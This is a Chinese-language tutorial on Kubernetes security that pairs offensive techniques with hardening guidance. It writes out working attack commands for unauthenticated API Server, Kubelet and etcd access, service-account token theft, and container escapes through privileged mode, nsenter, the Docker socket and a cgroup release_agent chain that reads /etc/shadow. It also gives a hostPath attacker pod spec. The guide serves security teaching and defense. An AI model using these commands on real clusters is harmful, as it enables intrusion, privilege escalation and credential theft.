

# Kubernetes安全

> 从Pod安全到集群审计，全面掌握K8s安全攻防技术

---

## 一、K8s安全基础

### 1.1 攻击面



### 1.2 主要威胁

| 威胁 | 目标 | 影响 |
|:-----|:-----|:-----|
| API Server未授权 | API Server | 集群控制 |
| etcd未加密 | etcd | 数据泄露 |
| Kubelet未认证 | Worker节点 | 容器控制 |
| 容器逃逸 | 容器 | 宿主机控制 |
| 镜像投毒 | 镜像仓库 | 恶意代码执行 |
| 配置错误 | RBAC/网络策略 | 权限提升 |
| 密钥泄露 | Secrets | 敏感数据泄露 |
| 供应链攻击 | Helm Chart | 恶意部署 |

---

## 二、集群发现与侦察

### 2.1 API Server信息收集

```bash
# 发现API Server
# 默认端口: 6443 (HTTPS)
curl -k https://kubernetes.default.svc
nmap -p 6443 10.0.0.0/24

# 未授权访问
curl -k https://10.0.0.1:6443/api/v1/pods
curl -k https://10.0.0.1:6443/api/v1/secrets

# 版本信息
curl -k https://10.0.0.1:6443/version

# 健康检查
curl -k https://10.0.0.1:6443/healthz
curl -k https://10.0.0.1:6443/livez
curl -k https://10.0.0.1:6443/readyz

# OpenAPI文档
curl -k https://10.0.0.1:6443/openapi/v2

# kubeconfig信息
cat ~/.kube/config
kubectl config view
kubectl cluster-info
kubectl api-resources
```

### 2.2 内部侦察

```bash
# 在Pod内运行
# 检查是否存在Service Account
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace

# API访问测试
curl -k -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" \
  https://kubernetes.default.svc/api/v1/namespaces/default/pods

# 环境变量
env | grep -i kubernetes
env | grep -i service

# DNS发现
nslookup kubernetes.default.svc
nslookup kube-dns.kube-system.svc.cluster.local

# 网络扫描 (从Pod内)
for svc in $(seq 1 65535); do
    timeout 1 bash -c "echo > /dev/tcp/10.0.0.1/$svc" 2>/dev/null && echo "Port $svc open"
done

# 使用kubectl (如果安装)
kubectl auth can-i --list
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
kubectl get clusterroles -o yaml
```

### 2.3 扫描工具

```bash
# kube-hunter
pip install kube-hunter
kube-hunter
kube-hunter --remote 10.0.0.1:6443

# kube-bench (CIS基准)
kubectl apply -f job.yaml
# 或
docker run --rm -v /etc/kubernetes:/etc/kubernetes aquasec/kube-bench:latest

# Peirates (K8s渗透工具)
git clone https://github.com/inguardians/peirates
./peirates

# KubeScan
# 扫描RBAC配置
kubectl auth can-i --list --as=system:anonymous
```

---

## 三、认证与授权

### 3.1 RBAC配置

```yaml
# ❌ 不安全: 集群管理员绑定
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: cluster-admin-binding
subjects:
- kind: User
  name: attacker
roleRef:
  kind: ClusterRole
  name: cluster-admin    # 危险!

# ✅ 最小权限
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: pod-reader
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "watch", "list"]

# 危险: 可创建Pod (可执行命令)
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: pod-creator
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["create", "delete", "exec"]

# 危险: 可获取Secrets
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get", "list"]

# 危险: 可绑定ClusterRole
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
  resources: ["clusterrolebindings"]
  verbs: ["create"]
```

### 3.2 Token窃取与利用

```bash
# 从节点文件系统
cat /etc/kubernetes/admin.conf
cat /var/lib/kubelet/config.yaml

# 从Pod内
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# 自动化Shell
# 安装kubectl
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# 配置
kubectl config set-cluster cluster --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
kubectl config set-credentials user --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl config set-context ctx --cluster=cluster --user=user
kubectl config use-context ctx

# 检查权限
kubectl auth can-i --list
kubectl auth can-i create pods
kubectl auth can-i get secrets --all-namespaces
```

### 3.3 匿名访问

```bash
# 检查是否允许匿名访问
kubectl auth can-i --list --as=system:anonymous

# 测试匿名访问
curl -k https://10.0.0.1:6443/api/v1/pods
# 如返回数据则存在未授权访问

# 组件认证绕过
# Kubelet默认端口10250
curl -k https://10.0.0.1:10250/pods
curl -k https://10.0.0.1:10250/run/namespace/pod/container -X POST -d "cmd=id"

# etcd (默认无认证)
export ETCDCTL_API=3
etcdctl --endpoints=https://10.0.0.1:2379 --insecure-skip-tls-verify get / --prefix --keys-only
```

---

## 四、容器逃逸

### 4.1 特权容器

```bash
# 检查是否为特权容器
cat /proc/1/status | grep CapEff
# 0000003fffffffff → 所有权限
capsh --print

# 利用特权
# 挂载宿主机文件系统
fdisk -l
mount /dev/sda1 /mnt
chroot /mnt

# 创建设备
mknod /tmp/device b 8 0
mount /tmp/device /mnt

# 使用nsenter逃逸
nsenter --target 1 --mount --uts --ipc --pid /bin/bash

# 使用crictl (容器运行时)
crictl exec -it $(crictl ps | grep mycontainer | awk '{print $1}') /bin/bash
```

### 4.2 Docker Socket

```bash
# 检查Docker Socket
ls -la /var/run/docker.sock
ls -la /run/docker.sock

# 利用Docker Socket
docker -H unix:///var/run/docker.sock ps

# 启动特权容器逃逸
docker run -it --privileged --pid=host -v /:/host ubuntu chroot /host

# 挂载宿主机
docker run -v /:/host ubuntu chroot /host
```

### 4.3 内核漏洞逃逸

```bash
# 检查内核版本
uname -a
cat /proc/version

# 常见逃逸漏洞
# CVE-2019-5736 (runC)
# CVE-2022-0492 (cgroup)
# CVE-2022-0847 (Dirty Pipe)

# 检查挂载
mount | grep /host
mount | grep cgroup

# cgroup逃逸
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
echo "cat /etc/shadow > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

---

## 五、Pod安全

### 5.1 Pod Security Standards

```yaml
# Pod安全标准 - 特权 (最宽松)
apiVersion: v1
kind: Pod
spec:
  securityContext:
    runAsUser: 0
    privileged: true
  containers:
  - name: app
    image: nginx
    securityContext:
      capabilities:
        add: ["SYS_ADMIN", "NET_ADMIN"]

# Pod安全标准 - 基线 (中等)
apiVersion: v1
kind: Pod
spec:
  securityContext:
    runAsNonRoot: true
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: nginx
    securityContext:
      allowPrivilegeEscalation: false
      capabilities:
        drop: ["ALL"]
      readOnlyRootFilesystem: true

# Pod安全标准 - 受限 (最严格)
apiVersion: v1
kind: Pod
spec:
  securityContext:
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: nginx
    securityContext:
      allowPrivilegeEscalation: false
      capabilities:
        drop: ["ALL"]
      runAsNonRoot: true
      runAsUser: 1000
      runAsGroup: 1000
      readOnlyRootFilesystem: true
      seccompProfile:
        type: RuntimeDefault
  automountServiceAccountToken: false
```

### 5.2 Pod安全策略

```yaml
# Pod Security Admission (K8s 1.23+)
# 标签控制
apiVersion: v1
kind: Namespace
metadata:
  name: prod
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted

# 或使用准入控制器
# --admission-control-config-file=admission.yaml

# OPA Gatekeeper
# 限制特权容器
apiVersion: templates.gatekeeper.sh/v1beta1
kind: ConstraintTemplate
metadata:
  name: k8spspprivilegedcontainer
spec:
  crd:
    spec:
      names:
        kind: K8sPSPPrivilegedContainer
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package k8spspprivilegedcontainer
        violation[{"msg": msg}] {
          container := input.review.object.spec.containers[_]
          container.securityContext.privileged
          msg := sprintf("Privileged container %v is not allowed", [container.name])
        }
```

### 5.3 恶意Pod部署

```yaml
# 攻击者部署恶意Pod
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
  namespace: default
spec:
  serviceAccountName: sa-attacker
  containers:
  - name: attacker
    image: alpine:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10; done"]
    volumeMounts:
    - name: hostfs
      mountPath: /host
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true

# 部署后
kubectl exec -it attacker-pod -- /bin/sh
chroot /host
cat /host/etc/shadow
```

---

## 六、网络安全

### 6.1 网络策略

```yaml
# ❌ 默认: 允许所有流量

# ✅ 最小权限网络策略
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: default
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress

# 允许特定入口
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-frontend
spec:
  podSelector:
    matchLabels:
      app: backend
  ingress:
  - from:
    - podSelector:
        matchLabels:
          app: frontend
    ports:
    - port: 8080

# 允许特定出口
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-dns
spec:
  podSelector: {}
  egress:
  - to:
    - namespaceSelector: {}
      podSelector:
        matchLabels:
          k8s-app: kube-dns
    ports:
    - port: 53
      protocol: UDP
```

### 6.2 服务暴露

```bash
# NodePort服务 → 节点端口暴露
# 端口范围: 30000-32767
kubectl get svc --all-namespaces | grep NodePort

# 扫描NodePort
nmap -p 30000-32767 10.0.0.1

# 服务类型
# ClusterIP - 集群内访问
# NodePort - 节点端口
# LoadBalancer - 云LB
# ExternalName - DNS映射

# 端口转发 (攻击者)
kubectl port-forward svc/internal-service 8080:80 --address 0.0.0.0
# 访问攻击机:8080 → 内部服务:80
```

---

## 七、Secrets管理

### 7.1 Secrets安全

```bash
# ❌ 不安全: Secrets以明文存储
kubectl get secrets
kubectl get secret db-secret -o yaml
kubectl get secret db-secret -o jsonpath='{.data.password}' | base64 -d

# ✅ 使用外部密钥管理
# HashiCorp Vault
# AWS Secrets Manager
# Azure Key Vault

# 使用Sealed Secrets
# SealedSecret (加密) → Secret (明文)
kubeseal --controller-name sealed-secrets --controller-namespace kube-system \
  --cert <(curl -s http://sealed-secrets:8080/v1/cert.pem) \
  < secret.yaml > sealed-secret.yaml

# 限制访问
# RBAC: get/list secrets → 最小权限
# 启用静态加密
# etcd加密
```

### 7.2 etcd安全

```bash
# etcd默认无认证
export ETCDCTL_API=3
etcdctl --endpoints=https://10.0.0.1:2379 get / --prefix --keys-only

# 获取所有Secrets
etcdctl get /registry/secrets/default/ --prefix

# etcd安全配置
# 1. 启用TLS
# 2. 启用认证
# 3. 防火墙限制
# 4. 加密存储
```

---

## 八、镜像安全

### 8.1 镜像扫描

```bash
# 使用Trivy
trivy image nginx:latest
trivy image --severity CRITICAL,HIGH alpine:latest

# 使用Grype
grype nginx:latest

# 在K8s中集成
# 准入控制器验证镜像
# OPA/Kyverno策略

# 镜像签名验证
cosign verify --key cosign.pub myrepo/myimage:tag

# 镜像安全配置
# ImagePolicyWebhook
# - 只允许签名镜像
# - 只允许白名单仓库
# - 阻止latest标签
```

### 8.2 准入控制器

```yaml
# Kyverno策略: 阻止latest标签
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-latest-tag
spec:
  validationFailureAction: enforce
  rules:
  - name: require-image-tag
    match:
      resources:
        kinds:
        - Pod
    validate:
      message: "Using 'latest' tag is not allowed"
      pattern:
        spec:
          containers:
          - image: "!*:latest"

# OPA Gatekeeper: 只允许签名镜像
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sRequiredProvenance
metadata:
  name: image-provenance
spec:
  match:
    kinds:
    - apiGroups: [""]
      kinds: ["Pod"]
  parameters:
    attestors:
    - name: cosign
      keys:
      - key: |
          -----BEGIN PUBLIC KEY-----
          ...
          -----END PUBLIC KEY-----
```

---

## 九、审计与监控

### 9.1 审计日志

```bash
# 启用审计日志
# kube-apiserver参数
--audit-policy-file=/etc/kubernetes/audit-policy.yaml
--audit-log-path=/var/log/kubernetes/audit.log
--audit-log-maxage=30
--audit-log-maxbackup=10
--audit-log-maxsize=100

# 审计策略
# /etc/kubernetes/audit-policy.yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
# 记录所有Secret操作
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets"]

# 记录配置变更
- level: RequestResponse
  verbs: ["create", "update", "patch", "delete"]

# 记录认证失败
- level: Request
  users: ["system:anonymous", "system:unauthenticated"]

# 默认不记录
- level: None

# 审计日志分析
kubectl logs kube-apiserver -n kube-system | grep -i audit
tail -f /var/log/kubernetes/audit.log | grep '"verb":"create"'
```

### 9.2 Falco检测

```yaml
# Falco规则: 容器逃逸
- rule: Container Run As Root
  desc: Container running as root
  condition: container and container.image != ""
  output: Container started with root user (user=%user.name)
  priority: WARNING

- rule: Terminal Shell in Container
  desc: A shell was spawned in a container
  condition: spawned_process and container and shell_procs
  output: Shell spawned (user=%user.name %container.info)
  priority: NOTICE

- rule: Unexpected K8s API Call
  desc: Unexpected API call from container
  condition: k8s_audit and not expected_api_calls
  output: Unexpected API call (user=%ka.user.name)
  priority: WARNING

- rule: Sensitive Mount
  desc: Sensitive path mounted in container
  condition: container and mount and sensitive_mount
  output: Sensitive mount (path=%mount.path)
  priority: WARNING
```

---

## 十、工具速查

### 10.1 安全工具

| 工具 | 用途 | 安装 |
|:-----|:-----|:------|
| kube-hunter | 漏洞扫描 | pip install kube-hunter |
| kube-bench | CIS基准 | docker run aquasec/kube-bench |
| kube-score | 配置评分 | docker run zegl/kube-score |
| Popeye | 集群健康 | brew install derailed/popeye/popeye |
| Falco | 运行时安全 | helm install falco |
| OPA Gatekeeper | 准入控制 | kubectl apply |
| Kyverno | 准入控制 | helm install kyverno |
| Trivy | 镜像扫描 | apt install trivy |

### 10.2 命令速查

```bash
# 信息收集
kubectl cluster-info
kubectl auth can-i --list
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
kubectl get roles,clusterroles --all-namespaces
kubectl get rolebindings,clusterrolebindings --all-namespaces

# Pod操作
kubectl exec -it pod -- /bin/sh
kubectl run debug --image=alpine -it -- /bin/sh
kubectl port-forward svc/service 8080:80

# 节点操作
kubectl get nodes -o yaml
kubectl describe node node1

# 审计
kubectl logs kube-apiserver -n kube-system
kubectl get events --all-namespaces
```

### 10.3 检查清单

```
□ API Server认证配置
□ RBAC最小权限
□ Pod安全策略
□ 网络策略配置
□ Secrets加密
□ 镜像安全扫描
□ 容器运行时安全
□ etcd安全
□ 审计日志启用
□ 节点安全加固
□ 定期漏洞扫描
□ 备份与恢复测试
□ 事件响应计划
□ 安全培训
```

---

> **参考资源**
>
> - Kubernetes Security Documentation
> - CIS Kubernetes Benchmark
> - OWASP Kubernetes Security
> - NSA/CISA Kubernetes Hardening Guide
> - K8s Security Checklist
> - Falco Documentation

[Docker逃逸全技巧](36-docker-escape.md)